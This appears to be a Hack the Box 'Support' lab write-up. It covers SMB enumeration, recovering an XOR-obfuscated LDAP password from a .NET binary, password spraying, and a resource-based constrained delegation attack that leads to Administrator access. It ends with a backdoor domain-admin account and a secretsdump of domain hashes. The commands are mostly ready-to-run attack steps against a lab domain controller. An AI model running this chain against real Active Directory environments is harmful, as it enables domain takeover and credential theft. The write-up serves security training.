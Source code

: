 ```yaml
---
layout: post
title: Hack the Box - Support
---
```


## NMAP
```bash
PORT     STATE SERVICE       REASON          VERSION
53/tcp   open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp   open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2022-08-14 14:27:05Z)
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds? syn-ack ttl 127
464/tcp  open  kpasswd5?     syn-ack ttl 127
593/tcp  open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped    syn-ack ttl 127
3268/tcp open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped    syn-ack ttl 127
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Enumeration
# SMB
- We have read access into the "support-tools" share
- ![[anonymous_shares.png]](/images/HTB/Support/anonymous_shares.png)
- In the share there is a bunch of tools but only "UserInfo.exe.zip" seems interesting
- ![[rid_brute.png]](/images/HTB/Support/rid_brute.png)
- Since we have IPC$ access, we can rid brute force to get users
Command to get list of users from output:
```bash
cat list.txt| awk {'print $6'} | cut -d '\' -f 2 > users.txt
```
# DNSpy
- Under LdapQuery in UserInfo.Services, we see an encoded password and key being xored
- ![[dnspy_enc_passwd.png]](/images/HTB/Support/dnspy_enc_passwd.png)
- Pass: ```0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E```
- Key: ```armando : 61 72 6d 61 6e 64 6f```

```csharp
namespace UserInfo.Services
{
	// Token: 0x02000006 RID: 6
	internal class Protected
	{
		// Token: 0x0600000F RID: 15 RVA: 0x00002118 File Offset: 0x00000318
		public static string getPassword()
		{
			byte[] array = Convert.FromBase64String(Protected.enc_password);
			byte[] array2 = array;
			for (int i = 0; i < array.Length; i++)
			{
				array2[i] = (array[i] ^ Protected.key[i % Protected.key.Length] ^ 223);
			}
			return Encoding.Default.GetString(array2);
		}

		// Token: 0x04000005 RID: 5
		private static string enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E";

		// Token: 0x04000006 RID: 6
		private static byte[] key = Encoding.ASCII.GetBytes("armando");
	}
}
```
Steps for getting the password - I used [CyberChef](https://gchq.github.io/CyberChef/) 
- Base64 decode
- xor twice with keys ``
- PW: ```nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz```


# Password Spray
- Once we obtain the password, we can password spray with our user list
- ![[ldap_pass_spray.png]](/images/HTB/Support/ldap_pass_spray.png)


- We find that the ldap user is valid ```ldap : nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz```

# Bloodhound
- Nothing interesting from bloodhound with the ldap user
- support user is part of Remote  Management Users
- ![[BH_RMU.png]](/images/HTB/Support/BH_RMU.png)
## NMAP P2
- Running nmap again (all ports) we find 5985 open, WinRM!
```bash
Not shown: 65516 filtered tcp ports (no-response)
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2022-08-28 02:22:11Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49674/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49686/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49700/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
53608/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Checking WinRM with CME
- No one from our list with the password above can remote in, we need support user
# Enumerating LDAP
```bash
ldapdomaindump ldap://10.10.11.174 -u 'support\ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' 
```
```bash
ldapsearch -x -H ldap://10.10.11.174 -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -D "CN=ldap,CN=Users,DC=support,DC=htb" -b "DC=support,DC=htb"
```
```bash
ldapsearch -x -H ldap://10.10.11.174 -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -D "CN=ldap,CN=Users,DC=support,DC=htb" -b "CN=support,CN=Users,DC=support,DC=htb" 
```

- There are a bunch of files in the ldapdomaindump we can look through for the search base
- By specifying the support user in the search base, we can see the password in the "info" section
```support : Ironside47pleasure40Watchful```
- ![[support_ldap_pw.png]](/images/HTB/Support/support_ldap_pw.png)
- Check with CME: ![[cme_winrm_support.png]](/images/HTB/Support/cme_winrm_support.png)
- We can remote in!
## Enumeration as support
# Bloodhound
- Looking through at our node, we can see we are a part of "Shared Support Accounts" which has "GenericAll" over the Domain Controller
- ![[BH_edges.png]](/images/HTB/Support/BH_edges.png)
- What does this mean? Full control of a computer object can be used to perform a resource based constrained delegation attack.

[Follwing hacktricks guide for creating the fake computer](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegationhttps://www.thehacker.recipes/ad/movement/kerberos/delegations/rbcd)
	
- I only used [powermad](https://github.com/Kevin-Robertson/Powermad) and [powerview](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
```powershell
New-MachineAccount -MachineAccount TURCO$ -Password $(ConvertTo-SecureString 'turco123!' -AsPlainText -Force) -Verbose
```
```powershell
Set-ADComputer DC$ -PrincipalsAllowedToDelegateToAccount TURCO$ 
```
```powershell
Get-ADComputer DC$ -Properties PrincipalsAllowedToDelegateToAccount
```
- Once we have all that setup, we can verify with:
```powershell
 Get-DomainComputer DC -Properties 'msds-allowedtoactonbehalfofotheridentity'
```


![[new_fake_com.png]](/images/HTB/Support/new_fake_com.png)

- Next, we can use this [script](https://github.com/tothi/rbcd-attack) to allow us to delegate as Administrator by editing the "msDs-AllowedToActOnBehalfOfOtherIdentity" attribute
```bash
python rbcd-attack/rbcd.py support.htb\\support:Ironside47pleasure40Watchful -dc-ip 10.10.11.174 -t DC -f TURCO
```
- ![[attribute_edit_success.png]](/images/HTB/Support/attribute_edit_success.png)
- We can also verify everything worked using "impacket-rbcd"

```bash
impacket-rbcd support.htb/support:Ironside47pleasure40Watchful -delegate-to 'DC$' -action read -dc-ip 10.10.11.174
```
- ![[impacket-rbcd_proof.png]](/images/HTB/Support/impacket-rbcd_proof.png)

- Lastly, we create the ST using the "ldap/dc.support.htb" SPN 
```bash
impacket-getST support.htb/TURCO$:turco123! -spn 'ldap/dc.support.htb' -impersonate Administrator -dc-ip 10.10.11.174
```

- Now we can wmiexec into the Domain Controller as Admin!
- ![[PWNED.png]](/images/HTB/Support/PWNED.png)
```bash
KRB5CCNAME=Administrator.ccache impacket-wmiexec -k -no-pass support.htb/Administrator@dc.support.htb -dc-ip 10.10.11.174
```

## Post Exploitation
# Secretsdump
- Create a new user
```windows
net user turc0 Turco123123!! /add /domain
```
- Add to domain admins group
```windows
net group "Domain Admins" turc0 /add /domain
```

- Dump!
```bash
impacket-secretsdump support.htb/turc0@dc.support.htb -dc-ip 10.10.11.174 -just-dc
```